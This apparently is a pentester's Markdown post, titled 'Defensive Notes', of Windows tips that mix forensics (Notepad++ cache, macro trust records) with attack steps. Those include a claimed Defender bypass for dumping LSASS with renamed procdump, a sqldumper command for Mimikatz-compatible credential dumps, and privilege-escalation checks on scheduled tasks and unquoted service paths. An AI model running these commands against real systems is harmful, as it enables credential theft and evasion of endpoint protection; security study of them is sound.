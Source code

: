 ```yaml
---
title: "Defensive Notes" 
layout: "post"
---
```


Some notes and tricks that helped me during engagement


## 1) Notepad cache

```powershell
[lazy]People like me use __Notepad++__ as a note-taking thing. We create a 'new', then never get around to saving them.

They get cached here:
C:\Users\{username}\AppData\Roaming\Notepad++\backup
```

## 2) Procdump.exe 

```powershell
If you rename __procdump.exe to __dump64.exe__ and place it in the "C:\Program Files (x86)\Microsoft Visual Studio\*" folder, you can bypass Defender and dump __LSASS__.
```

## 3) Malicious Macro Enabled

```powershell
How to prove malicious macro was enabled & clicked? 👀 #DFIR 

HKEY_LOCAL_MACHINE\USERDAT\Software\Microsoft\Office\<VERS>\<PROGRAM>\Security\Trusted Documents\TrustRecords 

Look ONLY for values where last four bytes are "FF FF FF 7F". 

These files had macros enabled
```


## 4) SQLdumper LSASS

```powershell
0x01100:40 flag will create a Mimikatz compatible dump file.

sqldumper.exe 540 0 0x01100:40

Usecase: Dump LSASS.exe to Mimikatz compatible dump using PID.
```

## 5) Powershell domain control enumerations

```powershell
powershell detect domain controller 

$F = [system.directoryservices.activedirectory.Forest]::GetCurrentForest();$F.domains | ForEach-Object {$_.DomainControllers} | ForEach-Object {$_.Name + " " + $_.IPAddress}
```

## 6) Document all tasks in task scheduler

	```powershell
$outcsv = "c:\temp\taskdef.csv" ; Get-ScheduledTask | ForEach-Object { [pscustomobject]@{ Name = $_.TaskName; Path = $_.TaskPath;LastResult = $(($_ | Get-ScheduledTaskInfo).LastTaskResult);NextRun = $(($_ | Get-ScheduledTaskInfo).NextRunTime);Status = $_.State;Command = $_.Actions.execute;Arguments = $_.Actions.Arguments }} |Export-Csv -Path $outcsv -NoTypeInformation -Force
	
	
#Get Schedule Tasks from within powershell

powershell Get-ScheduledTask

#We can remove all tasks located under the /Microsoft/Windows/ path, most of the time, it is the default scheduled tasks.

Get-ScheduledTask | Select * | ? {$_.TaskPath -notlike "\Microsoft\Windows\*"} | Format-Table -Property State, Actions, Date, TaskPath, TaskName, @{Name="User";Expression={$_.Principal.userID}}
	
#now we can remove the tasks who are executed with the same privilege as our "lowuser" user

Get-ScheduledTask | Select * | ? {($_.TaskPath -notlike "\Microsoft\Windows\*") -And ($_.Principal.UserId -notlike "*$env:UserName*")} | Format-Table -Property State, Actions, Date, Task
Path, TaskName, @{Name="User";Expression={$_.Principal.userID}}

#We can use this following PowerShell commands to get the interval of execution of the Task.

$task= Get-ScheduledTask -TaskName Task1
ForEach ($triger in $task.Triggers) { echo $triger.Repetition.Interval}

#We can find the actions of this task with these commands

$task= Get-ScheduledTask -TaskName Task1
ForEach ($action in $task.Actions) { Select $action.Execute}

#As a low privilege user we have to check if we can overwrite this file. Using icacls or accesschk64.exe
```
	
## 7) Unquoted Service Path 

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """